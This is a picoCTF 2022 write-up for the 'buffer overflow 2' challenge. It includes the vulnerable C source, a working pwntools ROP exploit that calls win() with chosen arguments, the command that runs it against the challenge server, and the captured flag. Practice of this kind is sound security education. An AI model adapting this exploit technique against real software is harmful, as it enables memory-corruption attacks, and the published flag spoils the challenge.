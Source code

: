 # picoCTF 2022

> Darshan Patel

## Overview

| Tables | Description |
| ------ | ----------- |
| Category | Binary Exploitation |
| Challenge Name | buffer overflow 2 |
| Points | 300 |

## Description
Control the return address and arguments This time you’ll need to control the arguments to the function you return to!

This challenge provided a binary and its C source code:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 100
#define FLAGSIZE 64

void win(unsigned int arg1, unsigned int arg2) {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xCAFEF00D)
    return;
  if (arg2 != 0xF00DF00D)
    return;
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```

From the source code, we can see that this challenge is similar to buffer overflow 1. However, instead of just returning to win() function, we also need to pass the function arguments.

Again, this can be easily done using ROP object provided by pwntools:

```python
from pwn import *

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
init-pwndbg
continue
'''.format(**locals())

# Set up pwntools for the correct architecture
exe = './vuln'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (error/warning/info/debug)
context.log_level = 'error'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

io = start()

eip_offset = 112 
info('located EIP offset at {a}'.format(a=eip_offset))

# Create ROP object
rop = ROP(elf)
# Call the hacked function
rop.win(0xCAFEF00D,  0xF00DF00D)

# Get the raw bytes
rop_chain = rop.chain() # Add exit : + p32(0x0804927e)

# Build payload
payload = flat({
    eip_offset: rop_chain

})

# Save payload to file
write('payload', payload)

# Start a new process
io = start()

# PWN
io.sendlineafter(b'string: \n', payload)

# Receive the flag
io.interactive()
```

to run the `exploit`: 

```python3 exploit.py REMOTE saturn.picoctf.net 55097```

Flag:

`picoCTF{argum3nt5_4_d4yZ_b3fd8f66}`
